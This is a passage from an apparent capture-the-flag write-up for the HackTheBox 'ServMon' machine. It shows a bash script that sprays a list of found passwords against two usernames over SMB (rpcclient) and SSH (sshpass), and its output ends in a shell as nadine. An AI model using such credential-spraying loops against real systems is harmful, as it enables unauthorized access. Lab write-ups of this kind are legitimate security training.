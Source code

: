 So this is the list of passwords, unfortunately there are no usernames for them. 
The first step was to try to login to the website. So far I only know the usernames nathan and nadine.
I added the admin account to these two users and tried all combinations.

Unfortunately without success. After that I built a small script which tried the other services. For the SSH server I used sshpass, because I could send the password directly.

```bash
array=( nathan nadine )

for user in "${array[@]}"
do
	for line in $(cat passwords.txt)
	do
		echo "check $user with password: $line" 
		rpcclient -U "$user%$line" servmon.htb
		sshpass -p $line ssh $user@servmon.htb
	done
done
```

```
kali@kali:~/hacking_stuff/htb/machines/servmon$ ./script.sh
check nathan with password: 1nsp3ctTh3Way2Mars!
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nathan with password: Th3r34r3To0M4nyTrait0r5!
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nathan with password: B3WithM30r4ga1n5tMe
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nathan with password: L1k3B1gBut7s@W0rk
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nathan with password: 0nly7h3y0unGWi11F0l10w
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nathan with password: IfH3s4b0Utg0t0H1sH0me
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nathan with password: Gr4etN3w5w17hMySk1Pa5$
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nadine with password: 1nsp3ctTh3Way2Mars!
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nadine with password: Th3r34r3To0M4nyTrait0r5!
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nadine with password: B3WithM30r4ga1n5tMe
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Permission denied, please try again.
check nadine with password: L1k3B1gBut7s@W0rk
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```
